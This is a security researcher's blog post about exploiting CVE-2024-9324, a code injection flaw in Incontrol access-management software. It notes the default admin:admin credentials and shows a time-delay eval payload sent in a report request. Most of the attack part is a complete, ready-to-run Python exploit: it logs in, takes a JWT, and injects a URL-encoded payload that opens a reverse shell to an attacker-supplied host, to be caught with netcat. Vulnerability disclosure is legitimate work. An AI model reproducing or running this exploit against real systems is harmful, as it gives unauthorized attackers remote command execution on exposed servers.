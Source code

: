 ```yaml
---
layout: post
title: "CVE-2024-9324 Exploitation Chain: Web User to NT AUTHORITY SYSTEM "
description: "Step by step exploitation for the Code Injection vulnerability that I found."
date:   2024-11-08 09:01:35 +0300
image:  '/images/713.jpg'
tags:   [exploitation, cve]
---
```


Hello everyone! Today I will present in detail the exploitation of a Code Injection vulnerability that I recently found in the Incontrol software, version 2.21.57.

#### What is Incontrol?
Incontrol is a software mainly used for access management in companies and is more present in internal networks, although it is possible to find exposed hosts on the internet through tools such as Shodan and Fofa.

### Proof of Concept
To exploit this vulnerability, it is necessary to have a user with permission to generate reports. In addition, the software uses, by default, administrator credentials such as "admin:admin", which makes it easier to identify hosts configured with these default credentials.

![]({{site.baseurl}}/images/image.png)

With a successful login to the application, when navigating through the menu and accessing the "Event Reports" option, it is possible to capture the vulnerable request when trying to generate a PDF report.

![]({{site.baseurl}}/images/image2.png)

![]({{site.baseurl}}/images/image3.png)

Using a payload that executes Python code to perform a 10-second time sleep, we observed that the application responded as expected, returning the response in approximately 11 seconds.

{% highlight py %}
    eval(compile('for x in range(1):\n import time\n time.sleep(10)','a','single'))
{% endhighlight %}

![]({{site.baseurl}}/images/image4.png)

![]({{site.baseurl}}/images/image5.png)


### Exploit
To make the exploit easier, I developed an exploit in Python that automates the entire process and allows you to obtain a reverse shell.


{% highlight py %}

    #!/usr/bin/python3

    import argparse
    import requests
    import warnings
    warnings.filterwarnings("ignore")


    proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
    r = requests.session()

    def login(target, user, password):
        burp0_url = target + ":4441/v1/auth/"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/json", "Origin": f"{target}:4445", "Referer": f"{target}:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Priority": "u=0", "Te": "trailers", "Connection": "keep-alive"}
        burp0_json={"password": f"{user}", "username": f"{password}"}
        response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
        # Verifica se a resposta foi bem-sucedida
        if response.status_code == 200:
            # Obtém o token do JSON da resposta
            token = response.json().get("token")
            if token:
                return token
            else:
                print("[X] - Token Extraction Error!")
                return None
        else:
            print(f"[X] - Login Failed: {response.status_code}")
            return None
        
    def exploit(target, token, lhost, lport):
        burp0_url = target + f":4441/v1/evento/relatorio?page=1&limit=10000&fields=eval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20os%2csocket%2csubprocess%2cthreading%5cn%20def%20s2p(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20data%20%3d%20s.recv(1024)%5cn%20%20%20%20%20%20%20%20if%20len(data)%20%3e%200%3a%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.write(data)%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.flush()%5cn%20def%20p2s(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20s.send(p.stdout.read(1))%5cn%20s%20%3d%20socket.socket(socket.AF_INET%2c%20socket.SOCK_STREAM)%5cn%20s.connect((%22{lhost}%22%2c{lport}))%5cn%20p%20%3d%20subprocess.Popen(%5b%22cmd%22%5d%2c%20stdout%3dsubprocess.PIPE%2c%20stderr%3dsubprocess.STDOUT%2c%20stdin%3dsubprocess.PIPE)%5cn%20s2p_thread%20%3d%20threading.Thread(target%3ds2p%2c%20args%3d%5bs%2c%20p%5d)%5cn%20s2p_thread.daemon%20%3d%20True%5cn%20s2p_thread.start()%5cn%20p2s_thread%20%3d%20threading.Thread(target%3dp2s%2c%20args%3d%5bs%2c%20p%5d)%5cn%20p2s_thread.daemon%20%3d%20True%5cn%20p2s_thread.start()%5cn%20try%3a%5cn%20%20%20%20p.wait()%5cn%20except%20KeyboardInterrupt%3a%5cn%20%20%20%20s.close()','a','single'))"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Authorization": f"JWT {token}", "Origin": "https://localhost:4445", "Referer": "https://localhost:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "keep-alive"}
        response = requests.get(burp0_url, headers=burp0_headers, verify=False)
        

    def main():
        # Parse Arguments
        parser = argparse.ArgumentParser()
        parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
        parser.add_argument('-lh', '--lhost', help='Listening IP address for reverse shell', required=True)
        parser.add_argument('-lp', '--lport', help='Listening port for reverse shell', required=True)
        parser.add_argument('-u', '--username', help='Username to target', required=True)
        parser.add_argument('-p', '--password', help='Password value to set', required=True)
        args = parser.parse_args()
        print("[!] Running the exploit for CVE-2024-9324 [!]")
        print("[!] You need to run nc -nlvp manually [!]")
        print("[!] Usage example: python3 exploit.py --target https://TARGET -lh LHOST -lp 8080 -u admin -p admin [!]")

        print("[+] Logging in... [+]")
        token = login(args.target, args.username, args.password)
        
        print("[+] Sending shell! [+]")

        exploit(args.target, token, args.lhost, args.lport)

    if __name__ == '__main__':
        main()
{% endhighlight %}

![]({{site.baseurl}}/images/image6.png)


![]({{site.baseurl}}/images/image7.png)

That's it for today guys, I hope you enjoyed this Python Code Injection vulnerability and don't forget, keep hacking.